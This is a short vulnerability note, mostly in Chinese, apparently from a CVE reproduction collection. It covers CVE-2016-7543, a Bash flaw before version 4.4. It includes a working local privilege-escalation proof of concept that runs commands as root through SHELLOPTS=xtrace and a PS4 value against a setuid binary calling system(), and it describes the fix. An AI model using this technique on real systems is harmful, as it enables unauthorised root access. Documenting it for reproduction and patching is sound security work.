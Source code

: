 # CVE-2016-7543
---
## threat type
  local  

---

## vulnerability type  
  输入验证.

---
## introduction
  Bash 4.4之前的版本中存在安全漏洞。本地攻击者可借助特制的SHELLOPTS和PS4环境变量利用该漏洞以root权限执行任意命令。
  The recent bash 4.4 patched an old attack vector regardingspecially crafted SHELLOPTS+PS4 environment variables against bogus setuid binaries using system()/popen().

---
## recurrence
```sh
# gcc -xc - -otest <<< 'int main() { setuid(0); system("/bin/date"); }'
# chmod 4755 ./test
# ls -l ./test
-rwsr-xr-x. 1 root root 8549 Sep 10 18:06 ./test
# exit
$ env -i SHELLOPTS=xtrace PS4='$(id)' ./test #xtrace+PS4可以在带有system的二进制中执行额外的命令
uid=0(root)
Sat Sep 10 18:06:36 WET 2016
```

---
## exploitaion  
  使用了system/popen+的带有S权限的二进制程序，我们可以利用SHELLOPTS+PS4以root权限执行任意命令。

---
## fix
  获取PS4的值之前，判断euid是否为0.
